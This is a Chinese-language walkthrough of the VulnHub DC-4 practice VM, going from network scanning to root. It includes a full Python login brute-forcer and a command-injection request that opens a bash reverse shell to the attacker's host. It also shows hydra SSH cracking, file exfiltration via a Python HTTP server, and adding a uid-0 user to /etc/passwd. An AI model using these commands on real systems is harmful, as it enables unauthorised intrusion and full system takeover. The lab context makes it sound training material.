# 目标

get **flags**

---

# 1.信息收集
## 1.1 主机发现
```shell
nmap 192.168.64.0/24 -sn --max-rate 10000
```

靶机的IP地址是`192.168.64.39`

## 1.2 端口扫描
**SYN扫描**
```shell
nmap 192.168.64.39 -sS -sV -Pn --max-rate 10000 -p-
```


**TCP connection扫描**
```shell
nmap 192.168.64.39 -sT -sV -Pn --max-rate 10000 -p-
```


**UDP扫描**
```shell
nmap 192.168.64.39 -sU -sV -Pn --max-rate 10000 --top-ports 100
```


**nmap默认脚本扫描**
```shell
nmap 192.168.64.39 -sV -sC -O -p 22,80,2 --max-rate 10000 -oA nmap-scan/default
```


**nmap漏洞脚本扫描**
```shell
nmap 192.168.64.39 -sV --script vuln -O -p 22,80,2 --max-rate 10000 -oA nmap-scan/vuln
```
很多信息。

## 1.3 22端口获取信息
```shell
nmap 192.168.64.39 --script ssh-auth-methods.nse,ssh-hostkey.nse -p 22
```


## 1.4 80端口获取信息
**访问`http://192.168.64.39`**

这是一个登陆框。查看页面源码，也没什么信息。

**扫描一下网站**
```shell
gobuster dir --url http://192.168.64.39 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x zip,git,jpg,png,php,html,txt,tar -db
```


**访问`http://192.168.64.39/images`**

页面出现403

**访问`http://192.168.64.39/command.php`**
会重定向到`index.php`, 但是看着这个文件名意思是命令，会不会有什么参数？可以尝试一下。
```shell
ffuf -u http://192.168.64.39/command.php?FUZZ=whoami -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -ac
ffuf -u http://192.168.64.39/command.php?FUZZ=/etc/passwd -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -ac
```
没什么结果。

*Burp Suite抓个包看看*

这个界面里面有三个命令可以执行。把*response*里面的状态码改成*200*，然后去浏览器看看。

但是运行不了，需要登陆。我感觉只能暴力破解了。🧐 
暴力破解的话最好有一项是固定的，先暂时确定几个简单的用户名: *admin*, *administrator*, *user*, *guest*, *root*
```python
import requests
from time import sleep
from rich.progress import Progress, BarColumn, TextColumn, TimeElapsedColumn, TimeRemainingColumn

url = "http://192.168.64.39/login.php"
passwords_file = "/usr/share/wordlists/seclists/Passwords/Common-Credentials/10k-most-common.txt"

headers = {
    "Host": "192.168.64.39",
    "User-Agent": "Mozilla/5.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.9",
    "Content-Type": "application/x-www-form-urlencoded",
    "Origin": "http://192.168.64.39",
    "Referer": "http://192.168.64.39/index.php",
}

users = ['admin', 'user', 'administrator', 'guest', 'root']

with open(passwords_file, "r", encoding="utf-8", errors="ignore") as f:
    passwords = [line.strip() for line in f if line.strip()]

total = len(users) * len(passwords)

session = requests.Session()

with Progress(
    TextColumn("[bold blue]{task.description}"),
    BarColumn(),
    TextColumn("{task.completed}/{task.total}"),
    TimeElapsedColumn(),
    TimeRemainingColumn(),
) as progress:
    task = progress.add_task("Bruteforcing...", total=total)

    for u in users:
        for p in passwords:
            data = {
                "username": u,
                "password": p,
            }

            try:
                response = session.post(
                    url,
                    headers=headers,
                    data=data,
                    timeout=10,
                    allow_redirects=False
                )
            except requests.RequestException as e:
                progress.console.print(f"[red]Request error:[/red] {e}")
                progress.update(task, advance=1)
                continue

            if len(response.content) != 206:
                progress.console.print(
                    f"[green]Possible hit[/green] "
                    f"status={response.status_code}; username={u}; password={p}; "
                    f"length={len(response.content)}"
                )
                break

            progress.update(task, advance=1)
            sleep(0.1)
```

应该是`admin`和`happy`.

---

# 2.建立系统立足点
**登陆网页**


**点击看看目前网站下面有什么文件**

没啥什么意外的文件夹/文件。既然能够输入命令来执行，那会不会可能有命令注入执行呢？尝试一下。使用Burp Suite来抓包，那不就可以建立反弹连接了.

**构造request**
```text
POST /command.php HTTP/1.1
Host: 192.168.64.39
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:150.0) Gecko/20100101 Firefox/150.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
Origin: http://192.168.64.39
Connection: keep-alive
Referer: http://192.168.64.39/command.php
Cookie: PHPSESSID=iklr35c13meql2h8k6ehej97g1
Upgrade-Insecure-Requests: 1
Priority: u=0, i

radio=bash+-c+%27bash+-i+%3E%26+/dev/tcp/192.168.64.2/1025+0%3E%261%27&submit=Run
```

**在kali端监听**
```shell
nc -lvnp 1025
```

**使用Burp Suite发送request，建立反弹连接**


---

# 3.系统提权
**三板斧**
```shell
sudo -l
find / -perm -4000 -type f 2>/dev/null
find / \( -path /sys -o -path /dev -o -path /lib -o -path /usr -o -path /proc -o -path /etc -o -path /boot -o -path /var/lib \) -prune -o -name "*key*" 2>/dev/null
find / \( -path /sys -o -path /dev -o -path /lib -o -path /usr -o -path /proc -o -path /etc -o -path /boot -o -path /var/lib \) -prune -o -name "*pass*" 2>/dev/null
find / \( -path /sys -o -path /dev -o -path /lib -o -path /usr -o -path /proc -o -path /etc -o -path /boot -o -path /var/lib \) -prune -o -name "*back*" 2>/dev/null
find / \( -path /sys -o -path /dev -o -path /lib -o -path /usr -o -path /proc -o -path /etc -o -path /boot -o -path /var/lib \) -prune -o -name "*bak*" 2>/dev/null
```
感觉以下文件/文件夹有信息，
- suid: `/home/jim/test.sh`
- `/home/jim/backups/old-passwords.bak`
- `/home/jim/backups`

**系统信息**
```shell
uname -a
## Linux dc-4 4.9.0-3-686 #1 SMP Debian 4.9.30-2+deb9u5 (2017-09-19) i686 GNU/Linux
uname -m
## i686
cat /etc/os-release
## PRETTY_NAME="Debian GNU/Linux 9 (stretch)"
## NAME="Debian GNU/Linux"
## VERSION_ID="9"
## VERSION="9 (stretch)"
## ID=debian
```

**运行文件`test.sh`**

查看`test.sh`文件

这里没有路径劫持，因为这个文件内容是text，linux为了安全，在运行时会自动忽略suid权限。

**查看`old-passwords.bak`文件**
这是一个满是密码的文件，可以发现靶机里面是有python的，

临时开启一个8080端口的http服务，
```shell
python3 -m http.server 8080
```
在kali上面获取文件
```shell
wget http://192.168.64.39:8080/old-passwords.bak
```
将文件保存为passwd.txt文件，这些密码很有可能是ssh用户的密码。

**查看`/etc/passwd`文件**

可以选择用户名：`root`, `charles`, `jim`, `sam`
保存为users.txt文件。

**查看ssh配置文件**
```shell
cat /etc/ssh/sshd_config
```
基本没什么特殊的。

**开始破解ssh**
```shell
hydra -L users.txt -P passwd.txt -s 22 ssh://192.168.64.39 -t 4 -V
```
- `jim` : `jibril04`

**登陆jim用户ssh**
三板斧，没得到什么信息。

jim用户里面有一个文件是只有jim才可以看到的, 查看一下
```shell
cat mbox
```

好像是一封root给jim的邮件，是一场测试？去linux上面的2个邮件目录(`/var/mail`, `/var/spool/mail`)看一下，
里面都有一个jim的文件，查看一下，

上面写的是系统里的用户charles给jim自己的密码。

**登陆charles用户ssh**

有一个`teehee`的命令，去GTFOBins网站上面查了一下，没有这个命令，可能是系统特有的，或者程序员自己写的。看看有没有帮助，
```shell
teehee --help
```
```
Usage: /usr/bin/teehee [OPTION]... [FILE]...
Copy standard input to each FILE, and also to standard output.
```
能在文件中写入东西，我自己创建了一个文件测试了一下，确实可以。
那我们不就可以去修改`/etc/passwd`了吗？新创建一个用户，然后密码是我们知道的uid=0,gid=0，然后将用户切换过去。(要加上`-a`参数，否则会覆盖原文件！！！)

使用openssl创建用户的密码123456
```shell
openssl passwd -6 -salt "abc" "123456"
## $6$abc$ONXVqaRaiSFohn5LyElW.FY3mlScr2Lu6FYzpl0Odcoz.LTwcPHLKC5GaIcu0K6GE5QPvA400c2XWHIFL.ueT/
```
构造一行
```text
curme:$6$abc$ONXVqaRaiSFohn5LyElW.FY3mlScr2Lu6FYzpl0Odcoz.LTwcPHLKC5GaIcu0K6GE5QPvA400c2XWHIFL.ueT/:0:0:hello:/root:/bin/bash
```
开始操作




---
---

# 💻 硬件与软件平台
## 硬件
- Apple Macbook pro `M1-Pro` `32G` `512G`
- macOS `14.8.5`

## 软件
- UTM version `4.7.5`

**kali**:
- IP: `192.168.64.2`
- OS Realease: `debian 2025.4`
- CPU Arch: `Arm64`
- CPU Cores: `4`

**DC-4**: 
- website: `https://www.vulnhub.com/entry/dc-4,313/`
- IP: `192.168.64.39`
- CPU Arch: `i686`
- CPU Cores: `2`

---

> 水平有限，有不足、错误之处欢迎指出。🧐